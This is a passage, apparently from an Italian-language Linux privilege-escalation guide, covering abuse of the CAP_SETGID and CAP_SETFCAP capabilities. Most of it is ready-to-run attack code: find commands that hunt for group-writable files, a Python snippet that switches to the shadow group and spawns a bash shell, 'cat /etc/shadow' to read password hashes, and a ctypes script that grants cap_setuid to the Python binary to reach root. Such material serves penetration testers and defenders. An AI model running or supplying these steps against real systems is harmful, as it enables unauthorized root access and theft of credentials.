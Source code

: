 **Questo significa che è possibile impostare l'ID del gruppo effettivo del processo creato.**

Ci sono molti file che è possibile sovrascrivere per ottenere privilegi elevati, [**puoi trovare idee qui**](payloads-to-execute.md#sovrascrivere-un-file-per-ottenere-privilegi-elevati).

**Esempio con un binario**

In questo caso, dovresti cercare file interessanti che un gruppo può leggere perché puoi impersonare qualsiasi gruppo:
```bash
#Find every file writable by a group
find / -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file writable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file readable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=r -exec ls -lLd {} \; 2>/dev/null
```
Una volta che hai trovato un file che puoi sfruttare (tramite lettura o scrittura) per ottenere privilegi elevati, puoi **ottenere una shell impersonando il gruppo interessante** con:
```python
import os
os.setgid(42)
os.system("/bin/bash")
```
In questo caso è stata impersonata il gruppo shadow in modo da poter leggere il file `/etc/shadow`:
```bash
cat /etc/shadow
```
Se **docker** è installato, potresti **impersonare** il **gruppo docker** e abusarne per comunicare con il [**socket docker** e ottenere privilegi elevati](./#writable-docker-socket).

## CAP\_SETFCAP

**Questo significa che è possibile impostare le capacità su file e processi**

**Esempio con un binario**

Se Python ha questa **capacità**, puoi facilmente abusarne per ottenere privilegi elevati come root:

{% code title="setcapability.py" %}
```python
import ctypes, sys

#Load needed library
#You can find which library you need to load checking the libraries of local setcap binary
# ldd /sbin/setcap
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

libcap.cap_from_text.argtypes = [ctypes.c_char_p]
libcap.cap_from_text.restype = ctypes.c_void_p
libcap.cap_set_file.argtypes = [ctypes.c_char_p,ctypes.c_void_p]

#Give setuid cap to the binary
cap = 'cap_setuid+ep'
path = sys.argv[1]
print(path)
cap_t = libcap.cap_from_text(cap)
status = libcap.cap_set_file(path,cap_t)

if(status == 0):
print (cap + " was successfully added to " + path)
```
{% endcode %}
```bash
python setcapability.py /usr/bin/python2.7
```
{% hint style="warning" %}